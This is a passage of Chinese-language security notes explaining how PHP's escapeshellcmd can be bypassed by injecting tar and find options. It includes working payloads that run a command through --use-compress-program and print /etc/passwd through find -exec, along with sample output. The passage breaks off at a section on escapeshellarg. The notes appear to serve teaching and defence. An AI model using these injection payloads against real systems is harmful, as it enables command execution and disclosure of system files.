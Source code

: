 利用漏洞的能力取决于目标可执行文件

包含一些可能被滥用的特定选项的一些已知可执行文件的列表

**escapeshellcmd是将传入的字符串特殊字符转义        特殊字符加上\转义(不包含!)  显示的时候不会显示\   字符串被当做一个命令的参数**

**escapeshellarg是将传入的字符串最外面增加一个单引号并且能引用或者转码任何已经存在的单引号，使其称为一个单一的字符串  字符串被当做一个命令的一个参数**

###### TAR

压缩some_file到/tmp/sth

```php
$command = '-cf /tmp/sth /some_file';
system(escapeshellcmd('tar '.$command));
```

特定选项利用：

创建一个空文件/tmp/exploit

```php
$command = "--use-compress-program='touch /tmp/exploit' -cf /tmp/passwd /etc/passwd";
system(escapeshellcmd('tar '.$command));
```

###### FIND

在/Desktop目录下查找1.php

```php
<?php
	$command = '1.php';
	system('find ~/Desktop/ -iname '.escapeshellcmd($command));
?>

=> 
/root/Desktop/1.php
```

特定选项利用：

打印/etc/passwd内容

```php
<?php
	$file = "sth -or -exec cat /etc/passwd ; -quit";#（多个参数）
	system("find /tmp -iname ".escapeshellcmd($file));//亲自尝试报错
?>

=>
root:x:0:0:root:/root:/bin/bash
......
```

###### Escapeshellcmd和escapeshellarg

在这个配置中，我们可以传递第二个参数给函数来绕过escapeshellcmd
列出/tmp目录并忽略sth文件
